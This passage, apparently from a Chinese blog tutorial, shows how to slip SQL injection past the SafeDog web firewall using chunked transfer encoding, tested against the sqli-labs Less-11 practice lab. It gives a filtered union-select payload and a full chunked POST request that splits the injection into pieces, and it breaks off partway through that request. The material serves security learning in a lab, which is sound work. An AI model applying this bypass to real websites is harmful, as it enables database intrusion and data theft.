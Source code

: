     0  
      
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230303190504.png)

说明是可以识别分块传输的东西，那么我们就可以构造payload来看是否可以绕过waf。

# 绕过安全狗的sql注入：

这里先解决一下绕过安全狗的方式，在常见的方式中，我们都采用垃圾字符填充的方式来绕过安全狗，虽然效果很好，但是较为复杂，也容易出现被狗咬伤的情况，所以为了解决这一现状，小秦同学翻阅之后发现了分块传输的方式来绕过安全狗。但是分块传输目前来看只能适用于post请求。get请求还是比较难说。

### 以sql-labs为例：

在sqli-labs的第十一关，我们发现了可以用post请求。先正常看看过滤哪些字符，这里开门见山，直接把'union select
(database()),2#。这个东西进行了过滤  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230303190505.png)  
咱们可以尝试使用分块传输的方式来进行绕过。这里在请求头中添加。

    
    
    Transfer-Encoding: chunked  
    这个东西，然后进行分块即可。  
    

#### 读取数据库名

    
    
    POST /sqli-labs-master/Less-11/ HTTP/1.1  
    Host: 192.168.172.161  
    Content-Length: 251  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    Origin: http://192.168.172.161  
    Content-Type: application/x-www-form-urlencoded  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Referer: http://192.168.172.161/sqli-labs-master/Less-11/  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9  
    Connection: close  
    Transfer-Encoding: chunked  
      
    1  
    u  
    4  
    name  
    1  
    =  
    1  
    &  
    2  
    pa  
    4  
    sswd  
    1  
    =  
    3  
    %27  
    2  
    un  
    1  
    i  